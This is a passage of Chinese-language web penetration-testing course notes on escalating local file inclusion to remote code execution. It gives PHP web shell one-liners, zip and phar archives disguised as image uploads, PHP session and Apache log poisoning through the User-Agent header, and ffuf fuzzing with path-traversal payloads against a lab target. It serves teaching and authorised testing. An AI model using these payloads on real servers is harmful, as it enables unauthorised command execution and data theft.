这个文件本身完全无害，不会对正常的 Web 应用程序造成任何影响。但是，如果我们将其与本地文件包含 (LFI) 漏洞结合使用，则可能实现远程代码执行。

> [!NOTE]
>
> 注意： 这里我们使用 GIF 图片，因为它的“魔数字节”是 ASCII 字符，易于输入，而其他文件扩展名的“魔数字节”是二进制格式，需要进行 URL 编码。不过，这种攻击方法适用于任何允许的图片或文件类型。 “文件上传攻击” 模块更深入地讲解了文件类型攻击，同样的逻辑也适用于此。

现在，我们需要上传恶意图片文件。为此，我们可以进入 Profile Settings 页面，点击头像图片选择图片，然后点击上传，图片应该就能成功上传了：

上传文件后，我们需要做的就是利用 LFI 漏洞将其包含进去。要包含上传的文件，我们需要知道文件的路径。在大多数情况下，尤其是图片，我们可以访问上传的文件，并可以通过 URL 获取其路径。在本例中，如果我们在上传图片后检查源代码，就可以获取其 URL：

```html

```

> [!NOTE]
>
> 注意： 如我们所见，我们可以使用 `/profile_images/shell.gif` 作为文件路径。如果我们不知道文件上传到哪里，那么我们可以先模糊测试上传目录，然后再模糊测试我们上传的文件。不过这种方法并不总是有效，因为有些 Web 应用程序会隐藏上传的文件。

有了上传文件的路径，我们需要做的就是将上传的文件包含在 LFI 漏洞函数中，然后 PHP 代码就会执行，如下所示：

`http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id`



> [!NOTE]
>
> 注意：在包含我们上传的文件时，我们使用了 `./profile_images/` 这个路径 —— 这是因为本场景下的 LFI 漏洞不会在我们的输入内容前拼接任何目录。若漏洞会在输入前拼接某一目录，则只需像前几节所学的那样，通过 `../` 跳出该目录，再拼接我们的 URL 路径即可。

## Zip Upload

如前所述，上述技术非常可靠，在大多数情况下以及大多数 Web 框架中都适用，前提是存在漏洞的函数允许代码执行。还有一些仅使用 PHP 的技术，它们利用 PHP warpper来实现相同的目标。在某些上述技术无效的特定情况下，这些技术可能会派上用场。

我们可以利用 zip 包装器来执行 PHP 代码。但是，该包装器默认情况下未启用，因此此方法可能并非总是有效。为此，我们可以先创建一个 PHP Web shell 脚本，并将其压缩成一个 zip 存档（命名为 shell.jpg ），如下所示：

```shell
$ echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

> [!NOTE]
>
> 注意： 尽管我们将 zip 档案命名为（shell.jpg），但某些上传表单仍可能通过内容类型测试将我们的文件检测为 zip 档案并禁止其上传，因此如果允许上传 zip 档案，则此攻击更有可能奏效。

一旦我们上传了 shell.jpg 这个压缩包文件，就可以通过 zip warpper 以 `zip://shell.jpg `的形式包含该文件，随后通过 URL 编码后的 `#` 来指定压缩包内的任意文件,如 `%23shell.php`。最后，只需像往常一样通过 &cmd=id 传递要执行的命令即可，具体格式如下：

`http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id`



可见，该方法同样能够通过压缩后的 PHP 脚本实现命令执行。

> [!NOTE]
>
> **注意：** 我们在文件名之前添加了上传目录（ `./profile_images/` ），因为存在漏洞的页面（ `index.php` ）位于主目录中。

## Phar Upload

最后，我们可以使用 `phar:// ` warpper 来实现类似的结果。为此，我们首先需要将以下 PHP 脚本写入 shell.php 文件中：

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

该脚本可被编译为 phar 文件 —— 当该文件被调用时，会将一个 WebShell 写入 shell.txt 这个子文件中，我们可通过该子文件进行交互。我们可按如下方式将其编译为 phar 文件，并将其重命名为 shell.jpg：

```shell
$ php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

此时我们应已得到一个名为 shell.jpg 的 phar 文件。将其上传至目标 Web 应用后，只需通过 `phar://` warpper调用该文件并指定其 URL 路径，再通过 URL 编码后的 /shell.txt 指明 phar 归档内的子文件，即可获取我们通过 &cmd=id 指定的命令执行结果，具体方式如下：

http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id


> [!NOTE]
>
> **注意：** 还有一种（已过时的）本地文件包含/上传攻击值得注意。当 PHP 配置中启用了文件上传功能，并且 `phpinfo()` 页面以某种方式暴露出来时，就会发生这种攻击。然而，这种攻击并不常见，因为它对触发条件有非常具体的要求（本地文件包含 + 已启用上传功能 + 旧版本 PHP + 暴露的 phpinfo() 页面）。如果您想了解更多信息，可以参考[此链接 ](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-phpinfo)。

# 文件投毒与RCE

在前几节内容中我们已经了解到：只要存在漏洞的函数具备 “执行” 权限，那么当我们包含任意含有 PHP 代码的文件时，其中的代码都会被执行。

本节要讲解的攻击手法均基于同一核心原理：
在我们可控制的输入字段中写入 PHP 代码，该字段的内容会被记录到日志文件中（即 “投毒 / 污染” 日志文件），随后通过包含该日志文件来执行其中的 PHP 代码。

要使该攻击生效，PHP Web 应用需具备读取这些日志文件的权限 —— 不同服务器的日志文件权限配置会有所不同。
与前一节的情况一致，以下任意具备 “执行” 权限的函数，均可能存在此类攻击的漏洞：

| **Function**               | **Read Content** | **Execute** | **Remote URL** |
| -------------------------------- | ---------------------- | ----------------- | -------------------- |
| **PHP**                    |                        |                   |                      |
| `include()`/`include_once()` | ✅                     | ✅                | ✅                   |
| `require()`/`require_once()` | ✅                     | ✅                | ❌                   |
| **NodeJS**                 |                        |                   |                      |
| `res.render()`                 | ✅                     | ✅                | ❌                   |
| **Java**                   |                        |                   |                      |
| `import`                       | ✅                     | ✅                | ✅                   |
| **.NET**                   |                        |                   |                      |
| `include`                      | ✅                     | ✅                | ✅                   |

## PHP 会话投毒（PHP Session Poisoning）

绝大多数 PHP Web 应用都会使用 PHPSESSID Cookie—— 后端可通过该 Cookie 存储与特定用户相关的数据，从而让应用能基于 Cookie 追踪用户的各类信息。

这些用户信息会被存储在后端的会话文件中：

* Linux 系统下默认路径为 `/var/lib/php/sessions/`，
* Windows 系统下则为 C:\Windows\Temp\。

存储用户数据的会话文件名规则为：在 PHPSESSID Cookie 的值前添加 sess_ 前缀。
例如，若 PHPSESSID Cookie 的值为 `el4ukv0kqbvoirg7nkp4dncpk3`，则该会话文件在服务器磁盘上的路径为 `/var/lib/php/sessions/sess_el4ukv0kqbvoirg7nkp4dncpk3`。

### 一. 检查可控数据

在实施 PHP 会话投毒攻击时，第一步要做的是检查我们的 PHPSESSID 对应的会话文件，确认其中是否包含可被我们控制并 “投毒” 的数据。因此，我们首先要检查当前会话是否已设置 PHPSESSID Cookie：



正如我们所见， PHPSESSID cookie 的值为 nhhv8i0o6ua4g88bkdl9u1fdsd ，因此它应该存储在 `/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd` 处。让我们尝试通过 LFI 漏洞包含此会话文件并查看其内容：

`http://<SERVER_IP>:`



我们可以看到，该会话文件包含两个值：page（对应所选的语言页面）和 preference（对应所选的语言）。其中 preference 的值不受我们控制 —— 因为我们并未在任何位置手动指定该值，它是由应用自动填充的；而 page 的值处于我们的控制范围内，因为我们可通过 `?language= 参数`操控这个值。

我们尝试给 page 变量设置一个自定义值（例如通过 language 参数），看看它是否会在会话文件中发生变化。操作方法很简单，只需访问拼接了 ?language=session_poisoning 参数的页面即可，具体如下：

`http://<SERVER_IP>:<PORT>/index.php?language=session_poisoning`

现在，让我们再次包含会话文件来查看其内容：

`http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd`



这次，会话文件中包含的是 session_poisoning 而不是 es.php ，这证实了我们能够控制会话文件中 page 的值。

### 二.实施投毒

下一步是通过向会话文件中写入 PHP 代码来执行 poisoning 操作。我们可以通过将 `?language= 参数`更改为 URL 编码的 Web Shell 来编写一个基本的 PHP Web Shell，如下所示：

`http://<SERVER_IP>:`

最后，我们可以包含会话文件，并使用 &cmd=id 来执行命令：

`http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id`

注意：若要执行其他命令，需重新向会话文件中注入 WebShell 进行投毒 —— 因为在我们上一次包含该文件后，路径为 /var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd 的会话文件已被覆盖。理想情况下，我们应利用这个被投毒的 WebShell，将一个永久型 WebShell 写入 Web 目录，或发送反向 Shell 以方便后续交互。

## 服务器日志投毒

Apache 和 Nginx 都维护着各种日志文件，例如 access.log 和 error.log 文件包含所有发送到服务器的请求的各种信息，包括每个请求的 User-Agent 标头。由于我们可以控制请求中的 User-Agent 标头， access.log 我们可以像上面那样利用它来篡改服务器日志。

一旦被注入恶意代码，我们需要利用本地文件包含 (LFI) 漏洞获取日志，为此我们需要对日志拥有读取权限。
默认情况下，低权限用户（例如 www-data 用户）可以读取 Nginx 日志，而 Apache 日志仅对高权限用户（例如 root / adm 用户组）可读。但是，在较旧或配置错误的 Apache 服务器上，这些日志可能对低权限用户也可见。

默认情况下， Apache 日志位于 Linux 系统的 /var/log/apache2/ 目录下，Windows 系统的 C:\xampp\apache\logs\ 下； Nginx 日志位于 Linux 系统的 /var/log/nginx/ 目录下，Windows 系统的 C:\nginx\log\ 下。然而，在某些情况下，日志可能位于不同的位置，因此我们可以使用[本地文件包含 (LFI) 字典](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)来模糊测试其位置，这将在下一节中讨论。

那么，让我们尝试将 `/var/log/apache2/access.log`中的 Apache 访问日志包含进来，看看会得到什么结果：

`http://<SERVER_IP>:<PORT>/index.php?language=/var/log/apache2/access.log`



正如我们所见，我们可以读取日志。日志包含 remote IP address 、 request page 、 response code 和 User-Agent 标头。如前所述， `User-Agent `标头由我们通过 HTTP 请求标头控制，因此我们应该能够篡改该值。

> **提示：** 日志通常非常庞大，在 LFI 漏洞中加载日志可能需要一段时间，甚至在最坏的情况下会导致服务器崩溃。因此，在生产环境中务必谨慎高效地处理日志，避免发送不必要的请求。

为此，我们将使用 Burp Suite 拦截我们之前的 LFI 请求，并将 `User-Agent` 标头修改为 Apache Log Poisoning ：



> [!NOTE]
>
> **注意：** 由于所有对服务器的请求都会被记录下来，因此我们可以毒害对 Web 应用程序的任何请求，而不一定像上面那样毒害 LFI 请求。

我们还可以通过 cURL 发送请求来污染日志，如下所示：

```shell
$ echo -n "User-Agent: <?php system(\$_GET['cmd']); ?>" > Poison
$ curl -s "http://<SERVER_IP>:<PORT>/index.php" -H @Poison
```

由于日志现在应该包含 PHP 代码，LFI 漏洞应该会执行这段代码，从而使我们能够获得远程代码执行权限。我们可以使用 ( `&cmd=id `) 指定要执行的命令：

我们看到命令已成功执行。同样的攻击也可以针对 Nginx 日志执行。

> [!NOTE]
>
> 提示： Linux /proc/ 目录下的进程文件中也会显示 User-Agent 标头。因此，我们可以尝试包含 /proc/self/environ 或 /proc/self/fd/N 文件（其中 N 通常是 0 到 50 之间的进程 ID），并可能对这些文件执行相同的攻击。如果我们没有服务器日志的读取权限，这可能很有用；但是，这些文件也可能只有特权用户才能读取。

最后，我们还可以利用其他类似的日志投毒技术攻击各种系统日志，具体取决于我们拥有哪些日志的读取权限。以下是我们可能可以读取的一些服务日志：

* /var/log/sshd.log
* /var/log/mail
* /var/log/vsftpd.log

我们首先应该尝试通过本地文件包含 (LFI) 漏洞读取这些日志。如果成功获取了这些日志，我们可以像之前那样对其进行恶意篡改。

例如，如果 ssh 或 ftp 服务暴露在我们面前，并且我们能够通过 LFI 漏洞读取它们的日志，那么我们可以尝试登录这些服务，并将用户名设置为 PHP 代码。这样，在日志中包含这些 PHP 代码后，这些代码就会被执行。

mail 服务也一样，我们可以发送一封包含 PHP 代码的电子邮件，在日志中包含这些代码后，这些代码也会被执行。我们可以将此技术推广到任何记录我们可控参数且可以通过 LFI 漏洞读取的日志。

# 自动化测试和工具

了解文件包含攻击的工作原理，以及如何手动构造高级有效载荷并使用自定义技术来实现远程代码执行，至关重要。这是因为在许多情况下，要利用漏洞，可能需要针对特定配置定制有效载荷。此外，在处理诸如 Web 应用防火墙 (WAF) 或防火墙之类的安全措施时，我们必须运用所学知识，了解特定有效载荷/字符是如何被阻止的，并尝试构造自定义有效载荷来绕过这些阻止。

在许多简单情况下，我们可能无需手动利用本地文件包含 (LFI) 漏洞。有很多自动化方法可以帮助我们快速识别和利用这些简单的 LFI 漏洞。我们可以使用模糊测试工具来测试大量常见的 LFI 有效载荷，看看其中是否有有效的，或者我们也可以使用专门的 LFI 工具来测试此类漏洞。这就是本节将要讨论的内容。

## 模糊测试参数

用户在 Web 应用程序前端使用的 HTML 表单通常都经过充分测试，并能有效抵御各种 Web 攻击。然而，在许多情况下，页面可能包含其他未与任何 HTML 表单关联的暴露参数，因此普通用户不会访问这些参数，也不会无意中造成损害。正因如此，对这些暴露参数进行模糊测试可能至关重要，因为它们的安全性通常不如公开的参数。

### 使用ffuf

“使用 Ffuf 攻击 Web 应用程序 ”模块详细介绍了如何对 GET / POST 参数进行模糊测试。例如，我们可以按如下方式对页面进行模糊测试，以检测常见的 GET 参数：

```shell
$ ffuf -w /opt/useful/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287

...SNIP...

 :: Method           : GET
 :: URL              : http://<SERVER_IP>:<PORT>/index.php?FUZZ=value
 :: Wordlist         : FUZZ: /opt/useful/seclists/Discovery/Web-Content/burp-parameter-names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response size: xxx
________________________________________________

language                    [Status: xxx, Size: xxx, Words: xxx, Lines: xxx]
```

一旦我们发现某个暴露的参数未链接到任何已测试的表单，我们就可以执行本模块中讨论的所有本地文件包含 (LFI) 测试。这不仅适用于 LFI 漏洞，也适用于其他模块中讨论的大多数 Web 漏洞，因为暴露的参数也可能容易受到其他漏洞的影响。

> [!NOTE]
>
> 提示： 为了进行更精确的扫描，我们可以将扫描限制在此[链接](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html#top-25-parameters)上找到的最流行的 LFI 参数。

## LFI 词表

到目前为止，在本模块中，我们一直手动构建本地文件包含 (LFI) 攻击载荷来测试 LFI 漏洞。这是因为手动测试更可靠，并且可以发现一些其他方法可能无法识别的 LFI 漏洞，正如前面讨论的那样。然而，在许多情况下，我们可能希望对某个参数进行快速测试，以查看它是否存在常见的 LFI 攻击载荷，这可以节省我们在 Web 应用程序中测试各种漏洞的时间。

我们可以使用多种 [LFI 词表](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)进行扫描。[LFI -Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) 是一个不错的选择，因为它包含各种绕过方法和常用文件，因此可以轻松地同时运行多个测试。我们可以使用此词表来模糊测试我们在整个模块中一直在测试的 `?language=` 参数，具体步骤如下：

```shell
$ ffuf -w /opt/useful/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287

...SNIP...

 :: Method           : GET
 :: URL              : http://<SERVER_IP>:<PORT>/index.php?FUZZ=key
 :: Wordlist         : FUZZ: /opt/useful/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response size: xxx
________________________________________________

..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../../../../../../../../etc/hosts [Status: 200, Size: 2461, Words: 636, Lines: 72]
...SNIP...
../../../../etc/passwd  [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../etc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../../etc/passwd&=%3C%3C%3C%3C [Status: 200, Size: 3661, Words: 645, Lines: 91]
..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd [Status: 200, Size: 3661, Words: 645, Lines: 91]
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
```

正如我们所见，扫描结果显示存在多个可用于利用该漏洞的本地文件包含 (LFI) 有效载荷。一旦我们识别出这些有效载荷，就应该手动测试它们，以验证它们是否按预期工作并显示包含的文件内容。

## 模糊测试服务器文件

除了模糊测试本地文件包含（LFI）有效载荷之外，还有一些服务器文件可能对我们的 LFI 利用有所帮助，因此了解这些文件的位置以及我们是否可以读取它们将很有帮助。这些文件包括： `Server webroot path` 、 server configurations file 和 `server logs `。

### 服务器网站根路径

在某些情况下，我们需要知道服务器的完整网站根路径才能完成漏洞利用。

例如，如果我们想要找到已上传的文件，但无法通过相对路径（例如 ../../uploads ）访问其 /uploads 目录，那么我们就需要确定服务器的网站根路径，以便通过绝对路径而不是相对路径来定位已上传的文件。

为此，我们可以通过常见的网站根目录路径来模糊测试 index.php 文件，这些路径可以在[ Linux 的字典文件](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt "SecLists/Discovery/Web-Content /default-web-root-directory-linux.txt")或[windows的服务器根路径](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt "Discovery/Web-Content/default-web-root-directory-windows.txt")中找到。根据本地文件包含 (LFI) 情况，我们可能需要添加一些后端目录（例如 ../../../../ ），然后再添加 index.php 文件。

下面是如何使用 ffuf 完成所有这些操作的示例：

```shell
$ ffuf -w /opt/useful/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287

...SNIP...

: Method           : GET
 :: URL              : http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 2287
________________________________________________

/var/www/html/          [Status: 200, Size: 0, Words: 1, Lines: 1]
```

正如我们所见，扫描确实识别出了正确的网站根路径（ /var/www/html/ ）。

我们还可以再次使用之前用过的[ LFI-Jhaddix.txt 字典文件](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt "Fuzzing/LFI/LFI-Jhaddix.txt")，因为它也包含一些可能揭示网站根路径的有效载荷。如果这仍然无法帮助我们识别网站根路径，那么最好的选择是读取服务器配置，因为配置中通常包含网站根路径和其他重要信息，我们接下来会看到。

### 服务器日志/配置

正如我们在上一节中看到的，我们需要能够识别正确的日志目录才能执行我们讨论过的日志投毒攻击。此外，正如我们刚才讨论的，我们可能还需要读取服务器配置，以便识别服务器的 Web 根目录路径和其他重要信息（例如日志路径！）。

为此，我们还可以使用 [ LFI-Jhaddix.txt 字典文件](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt "Fuzzing/LFI/LFI-Jhaddix.txt")，因为它包含许多我们可能感兴趣的服务器日志和配置路径。如果我们需要更精确的扫描，可以使用这个 [Linux 字典文件](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux)或这个[ Windows 字典文件](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows) ，但它们不属于 seclists ，因此我们需要先下载它们。让我们用 Linux 字典文件来测试我们的 LFI 漏洞，看看结果如何：

```shell
$ ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287

...SNIP...

 :: Method           : GET
 :: URL              : http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ
 :: Wordlist         : FUZZ: ./LFI-WordList-Linux
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 2287
________________________________________________

/etc/hosts              [Status: 200, Size: 2461, Words: 636, Lines: 72]
/etc/hostname           [Status: 200, Size: 2300, Words: 634, Lines: 66]
/etc/login.defs         [Status: 200, Size: 12837, Words: 2271, Lines: 406]
/etc/fstab              [Status: 200, Size: 2324, Words: 639, Lines: 66]
/etc/apache2/apache2.conf [Status: 200, Size: 9511, Words: 1575, Lines: 292]
/etc/issue.net          [Status: 200, Size: 2306, Words: 636, Lines: 66]
...SNIP...
/etc/apache2/mods-enabled/status.conf [Status: 200, Size: 3036, Words: 715, Lines: 94]
/etc/apache2/mods-enabled/alias.conf [Status: 200, Size: 3130, Words: 748, Lines: 89]
/etc/apache2/envvars    [Status: 200, Size: 4069, Words: 823, Lines: 112]
/etc/adduser.conf       [Status: 200, Size: 5315, Words: 1035, Lines: 153]
```

正如我们所见，扫描返回了 60 多个结果，其中许多结果与 [ LFI-Jhaddix.txt 字典文件](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt "Fuzzing/LFI/LFI-Jhaddix.txt")不匹配，这表明在某些情况下，精确扫描至关重要。现在，我们可以尝试读取这些文件，看看能否获取它们的内容。我们将读取 `/etc/apache2/apache2.conf`文件，因为它是 Apache 服务器配置的已知路径：

```
$ curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/apache2.conf

...SNIP...
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
...SNIP...
```

